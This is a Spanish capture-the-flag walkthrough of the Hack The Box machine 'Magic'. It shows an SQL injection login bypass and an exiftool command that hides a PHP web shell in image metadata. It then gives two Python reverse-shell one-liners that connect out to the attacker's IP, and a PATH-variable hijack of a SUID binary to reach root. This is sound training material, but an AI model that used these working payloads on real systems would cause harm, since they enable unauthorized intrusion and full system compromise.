# Magic

**OS**: Linux \
**Dificultad**: Medio \
**Puntos**: 30

## Resumen

- SQL Inyection login bypass
- File Upload Web Shell
- Mysqldump
- Path variable priv escalation

## Nmap Scan

`nmap -sV -sC -Pn -T3 -sS -p- 10.10.10.185`

```
Nmap scan report for 10.10.10.185
Host is up (0.073s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

Enumerando la pagina web que se encuentra en el puerto 80 podemos ver varias imágenes las cuales están en la ruta **/images/uploads** e **/images/fulls**.



También es posible ver un formulario de inicio de sesion, al cual es posible hacerle bypass con sql injection.

```
Username: 'or'1'='1
Password: 'or'1'='1
```





### File Upload Web Shell

Despues de hacer el bypass se visualiza un formulario para subir archivos que solo permite cierto tipo de extensiones.



Se puede realizar [bypass](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf) de la extensión del archivo para poder subir nuestra web shell en php.

Descargamos una imagen cualquiera y la modificamos con **exiftool** para agregar código php en la metadata de la imagen.

```
exiftool -DocumentName="<h1>D00M<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" doom.jpg

mv doom.jpg doom.php.jpg
```



Subimos nuestra imagen modificada y podemos ver que se cargo exitosamente.



Nos dirigimos a la ruta **/images/uploads/doom.php.jgp** y nuestra web shell funciona correctamente.

```
http://10.10.10.185/images/uploads/doom.php.jpg?cmd=id
```



Ponemos a la escucha nuestro netcat para obtener una reverse shell.

- `nc -lvnp 1234`

```
http://10.10.10.185/images/uploads/doom.php.jpg?cmd=python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.251',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```



Para trabajar cómodamente haremos un upgrade a nuestra reverse shell.

- `python3 -c "import pty;pty.spawn('/bin/bash')"`
- `ctrl + z`
- `stty raw -echo`
- `fg`
- `reset`
- `ctrl + c`



## Escalada de Privilegios (User)

Enumerando el directorio **/var/www/Magic** se encuentra el archivo **db.php5** el cual contiene credenciales para la base de datos **Magic**.



### Mysqldump

En los binarios instalados no se encuentra **mysqlclient** pero hay otro binario interesante llamado [mysqldump](https://www.linuxtotal.com.mx/index.php?cont=info_admon_021) el cual nos permite obtener la información de la base de datos en formato **sql**.

`locate mysql`



- `mysqldump -u theseus -p Magic > /tmp/doom.sql`
- `cat /tmp/doom.sql`



El archivo contiene un password, lo usaremos con el usuario **theseus**.



## Escalada de Privilegios (Root)

Podemos ver que hay un binario llamado **sysinfo**, es posible acceder a el ya que nosotros pertenecemos al grupo **users**. Investigando de como tomar ventaja de lo anterior llegamos a este [articulo](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

`find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null`



sysinfo ejecuta **lshw** y **fdisk**.

`strings /bin/sysinfo`



Usaremos esto para suplantar el binario **lshw** que contendrá nuestra reverse shell y luego ejecutaremos **sysinfo**.

```
mkdir /tmp/doom

echo "python3 -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.251',4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);\"" > lshw

chmod 777 lshw
```



El binario lshw se encuentra en la ruta **/usr/bin/lshw** modificando la variable **$PATH** agregaremos la ruta donde se encuentra el **lshw** modificado, podremos ver que se ha cambiado la ruta del binario lshw por la nuestra.

- `which lshw`
- `echo $PATH`
- `export PATH=/tmp/doom:$PATH`



Ponemos a la escucha nuestro netcat y ejecutamos **sysinfo**.

- `nc -lvnp 4321`
- `sysinfo`



## Referencias
https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf \
https://exiftool.org/ \
https://www.linuxtotal.com.mx/index.php?cont=info_admon_021 \
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/